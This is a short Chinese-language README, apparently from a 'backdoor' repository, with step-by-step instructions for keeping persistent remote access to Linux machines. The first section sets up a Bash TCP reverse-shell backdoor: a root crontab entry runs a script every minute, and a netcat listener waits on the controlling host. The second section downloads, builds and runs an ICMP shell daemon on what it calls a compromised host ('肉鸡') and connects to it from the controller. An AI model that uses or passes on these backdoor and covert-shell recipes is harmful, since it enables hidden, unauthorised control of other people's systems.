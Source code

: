 # backdoor

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br><br>

肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br><br>

控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>

安装之后，需要在被控端服务器执行如下命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>

